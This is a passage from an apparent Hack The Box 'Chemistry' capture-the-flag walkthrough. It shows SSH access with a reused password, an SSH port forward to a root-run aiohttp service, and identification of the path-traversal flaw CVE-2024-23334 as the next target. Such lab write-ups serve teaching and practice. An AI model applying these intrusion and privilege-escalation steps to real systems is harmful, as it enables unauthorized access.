 We were able to recover password for `rosa`, now let's check if was (unwisely) re-used and we can gain access over SSH with it.
```
┌──(magicrc㉿perun)-[~/attack/HTB Chemistry]
└─$ ssh rosa@chemistry.htb
rosa@chemistry.htb's password:
rosa@chemistry:~$
```

It seems so! We've successfully made 1st stage of priviliges escalation, let's grab user flag and proceed to 2nd (root) stage.
```
rosa@chemistry:~$ cat user.txt
********************************
```

As we saw previously there as service `root` service operating on `127.0.0.1:8080`, let's check if we could probe locally with `curl` with `rosa` priviliges.

```
rosa@chemistry:~$ curl -I http://127.0.0.1:8080
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 5971
Date: Fri, 07 Mar 2025 19:25:32 GMT
Server: Python/3.9 aiohttp/3.9.1
```

It seems that there is another Python application, this time running with `root` privileges. We can confirm this with simple process lookup.
```
rosa@chemistry:~$ pgrep -aflu 0 "\.py"
1043 /usr/bin/python3.9 /opt/monitoring_site/app.py
``` 

As expected we don't have local access this application
```
rosa@chemistry:~$ cat /opt/monitoring_site/app.py
cat: /opt/monitoring_site/app.py: Permission denied
```

So try to access (and exploit it) over HTTP. We will forward one of ports on our attack machine (as we have more tools) to this remote port on loopback interface.
```
┌──(magicrc㉿perun)-[~/attack/HTB Chemistry]
└─$ ssh -L 7070:localhost:8080 -Nf rosa@chemistry.htb
```

Little bit for web browsing shows that this is some kind of services monitor application (thus the name `monitoring_site/app.py`) with which we could list running services, however functionality of starting and stoping of services is not yet available. With brief JS analysis we could find `http://127.0.0.1:7070/list_services` endopoint which seems to return output of `service --status-all`. Before we continue this path let's [search](https://www.google.com/search?q=aiohttp+vulnerabilities) if there are some `aiohttp/3.9.1` HTTP server vulnarbilities to exploit. After digging thru the results we could find [CVE-2024-23334](https://nvd.nist.gov/vuln/detail/cve-2024-23334) which states:
> When using aiohttp as a web server and configuring static routes, it is necessary to specify the root path for static files. Additionally, the option 'follow_symlinks' can be used to determine whether to follow symbolic links outside the static root directory. When 'follow_symlinks' is set to True, there is no validation to check if reading a file is within the root directory. This can lead to directory traversal vulnerabilities, resulting in unauthorized access to arbitrary files on the system, even when symlinks are not present.
